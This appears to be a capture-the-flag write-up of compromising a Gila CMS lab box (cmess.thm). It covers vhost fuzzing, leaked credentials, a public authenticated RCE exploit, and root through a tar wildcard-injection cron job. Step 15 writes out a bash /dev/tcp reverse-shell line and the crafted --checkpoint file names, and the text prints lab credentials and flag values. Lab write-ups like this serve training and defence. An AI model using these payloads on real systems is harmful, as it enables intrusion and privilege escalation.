# Gila CMS — Box Walkthrough (cmess.thm)

Writeup of the steps taken to get user and root shells on the target (`10.48.157.72` / `10.49.139.148` / `10.49.150.164` — same lab box, IP changed between resets).

## Tools Used

| Tool | Purpose |
|------|---------|
| `nmap` | Port/service scanning and version detection |
| `gobuster` | Directory/file brute-forcing on the web server |
| `nikto` | Web server vulnerability/misconfiguration scanning |
| Firefox | Manual browsing, reading `robots.txt`, admin panel, dev log |
| `wfuzz` | Virtual host (subdomain) fuzzing via `Host` header |
| `searchsploit` | Finding a public exploit matching the CMS version |
| Public exploit (`51569.py`) | Gila CMS 1.10.9 authenticated RCE |
| `nc` (netcat) | Catching reverse shells |
| `ssh` | Logging in as `andre` with a found credential |
| `tar` wildcard injection | Privilege escalation via root cron job |

## Methodology

1. **Recon** – Scan for open ports/services.
2. **Web Enumeration** – Brute-force directories, scan with `nikto`, check `robots.txt` for hints.
3. **Virtual Host Discovery** – Fuzz for hidden subdomains behind the same IP.
4. **Information Disclosure** – Read a leaked dev log page that contains a password reset in plaintext.
5. **Access** – Log into the Gila CMS admin panel with the leaked creds, confirm CMS version.
6. **Exploitation** – Find and run a matching public authenticated RCE exploit to get a shell as `www-data`.
7. **Local Enumeration** – Find a backup password file, escalate to user `andre` over SSH, grab `user.txt`.
8. **Privilege Escalation** – Abuse a root cron job that runs `tar` with a wildcard on a folder writable by `andre` (classic tar wildcard injection), get a root shell, grab `root.txt`.

---

## Step-by-Step Execution

### 1. Port Scan

```bash
nmap -sV 10.48.157.72
```

Found:
- `22/tcp` — OpenSSH 7.2p2 (Ubuntu)
- `80/tcp` — Apache httpd 2.4.18 (Ubuntu)



### 2. Directory Brute-Force

```bash
gobuster dir -u http://10.49.139.148:80/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50
```

Found interesting paths: `login`, `admin`, `themes`, `assets`, `sites`, `log`, `tags`, etc.



### 3. Nikto Scan

```bash
nikto -h 10.49.139.148
```

Confirms Apache/2.4.18, missing security headers, and a few paths worth checking manually.



### 4. Checking `robots.txt`

```
http://10.49.150.164/robots.txt
```

```
User-agent: *
Disallow: /src/
Disallow: /themes/
Disallow: /lib/
```



### 5. Virtual Host Fuzzing

```bash
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://10.49.150.164" -H "Host: FUZZ.cmess.thm" --hl 107
```

Found a hidden vhost: **`dev`** (i.e. `dev.cmess.thm`).



### 6. Information Disclosure — Dev Log

Added the host to `/etc/hosts` and browsed `http://dev.cmess.thm`:

A "Development Log" page was publicly exposed, containing a support conversation where an admin's password was reset and posted in plaintext:

```
support@cmess.thm: Your password has been reset. Here: KPFTN_f2yxe%
```

Combined with the email `andre@cmess.thm` mentioned earlier in the thread, this gave working admin credentials.



### 7. Admin Panel Access

Logged into `http://10.49.150.164/admin` with:
- **User:** `andre@cmess.thm`
- **Pass:** `KPFTN_f2yxe%`

Confirmed the CMS: **Gila CMS 1.10.9**



### 8. Finding a Matching Exploit

```bash
searchsploit gila
```

Found several Gila CMS exploits, including:
- `Gila CMS 1.10.9 - Remote Code Execution (RCE) (Authenticated)` → `php/webapps/51569.py`



Also cross-checked the exploit-db page for the RCE writeup:



### 9. Add Host Entry

```bash
cat /etc/hosts
```

Confirmed `dev.cmess.thm` was mapped to `10.49.150.164` for the vhost to resolve locally.



### 10. Run the Exploit

```bash
python3 51569.py
```

Provided:
- Target admin URL: `http://10.49.150.164/admin/`
- Email: `andre@cmess.thm`
- Password: `KPFTN_f2yxe%`
- LHOST: `192.168.140.215`
- LPORT: `9999`

The exploit authenticated, uploaded a malicious file through the CMS, and triggered it — classic authenticated file-upload RCE.



### 11. Catch the Shell

```bash
nc -lvnp 9999
```

Landed a shell as `www-data`.



### 12. Local Enumeration

```bash
cd /opt
ls -la
cat .password.bak
```

Found a leftover backup password file readable by everyone:

```
andres backup password
UQfsdCB7aAP6
```



### 13. SSH as `andre`

```bash
ssh andre@10.49.150.164
```

Logged in with the recovered password, grabbed the user flag:

```bash
ls
cat user.txt
```

```
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```



### 14. Privilege Escalation — Cron Job

```bash
cat /etc/crontab
```

Found a root cron job running every 2 minutes:

```
*/2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

`tar` run with a wildcard (`*`) inside a directory writable by `andre` is a classic privilege escalation vector (tar wildcard injection / GTFOBins technique).



Checked the backup directory contents:

```bash
cat note
```

```
Note to self.
Anything in here will be backed up!
```



### 15. Exploit `tar` Wildcard Injection

Referenced the GTFOBins tar wildcard injection technique — dropping specially named files that `tar` interprets as command-line options (`--checkpoint`, `--checkpoint-action=exec=...`) instead of filenames:



In `/home/andre/backup`:

```bash
echo '#!/bin/bash' > shell.sh
echo 'bash -c "bash -i >& /dev/tcp/192.168.140.215/9999 0>&1"' >> shell.sh
chmod +x shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
ls
```

When the root cron job runs `tar -zcf ... *`, the wildcard expands to include the two crafted `--checkpoint*` files, tricking `tar` into executing `shell.sh` as **root**.



### 16. Catch the Root Shell

```bash
nc -lvnp 9999
```

Within 2 minutes the cron job fired, executing the payload as root:

```bash
cat root.txt
```

```
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```



---

## Summary

| Stage | Vector | Result |
|-------|--------|--------|
| Info Disclosure | Public dev vhost leaking a password reset | Admin credentials |
| Initial Access | Gila CMS 1.10.9 authenticated RCE (public exploit) | Shell as `www-data` |
| Lateral Movement | World-readable backup password file | SSH access as `andre` |
| Privilege Escalation | Root cron job running `tar` with a wildcard on a writable directory | Root shell |

## Root Cause / Fix Recommendations

- Never expose development/logging pages publicly — they leaked credentials in plaintext.
- Patch/upgrade CMS software promptly; Gila CMS 1.10.9 has a known authenticated RCE.
- Don't leave credential backup files (`*.bak`) world-readable on disk.
- Never run `tar`, `chmod`, `chown`, etc. with a wildcard (`*`) inside directories writable by lower-privileged users — always use explicit paths or exclude special filenames.
